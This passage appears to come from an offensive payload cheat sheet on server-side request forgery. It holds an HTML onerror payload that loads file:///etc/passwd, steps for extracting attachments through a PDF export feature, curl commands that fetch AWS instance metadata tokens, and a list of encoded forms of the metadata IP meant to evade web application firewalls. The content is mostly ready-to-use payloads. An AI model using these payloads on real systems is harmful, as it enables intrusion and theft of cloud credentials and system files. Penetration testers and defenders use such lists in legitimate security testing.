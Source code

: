 ```
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

**Using an attachment**

Example of a PDF attachment using HTML

1. use `<link rel=attachment href="URL">` as Bio text
2. use 'Download Data' feature to get PDF
3. use `pdfdetach -saveall filename.pdf` to extract embedded resource
4. `cat attachment.bin`

## **SSRF URL for Cloud Instances**

**SSRF URL for AWS**

The AWS Instance Metadata Service is a service available within Amazon EC2 instances that allows those instances to access metadata about themselves. - [Docs](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

- IPv4 endpoint (old): `http://169.254.169.254/latest/meta-data/`
- IPv4 endpoint (new) requires the header `X-aws-ec2-metadata-token`
    
    ```
    export TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
    curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
    ```
    
- IPv6 endpoint: `http://[fd00:ec2::254]/latest/meta-data/`

In case of a WAF, you might want to try different ways to connect to the API.

- DNS record pointing to the AWS API IP
    
    ```
    http://instance-data
    http://169.254.169.254
    http://169.254.169.254.nip.io/
    ```
    
- HTTP redirect
    
    ```
    Static:http://nicob.net/redir6a
    Dynamic:http://nicob.net/redir-http-169.254.169.254:80-
    ```
    
- Encoding the IP to bypass WAF
    
    ```
    http://425.510.425.510 Dotted decimal with overflow
    http://2852039166 Dotless decimal
    http://7147006462 Dotless decimal with overflow
    http://0xA9.0xFE.0xA9.0xFE Dotted hexadecimal
    http://0xA9FEA9FE Dotless hexadecimal
    http://0x41414141A9FEA9FE Dotless hexadecimal with overflow
    http://0251.0376.0251.0376 Dotted octal
    http://0251.00376.000251.0000376 Dotted octal with padding
    http://0251.254.169.254 Mixed encoding (dotted octal + dotted decimal)
    http://[::ffff:a9fe:a9fe] IPV6 Compressed
    http://[0:0:0:0:0:ffff:a9fe:a9fe] IPV6 Expanded
    http://[0:0:0:0:0:ffff:169.254.169.254] IPV6/IPV4
    http://[fd00:ec2::254] IPV6
    ```
    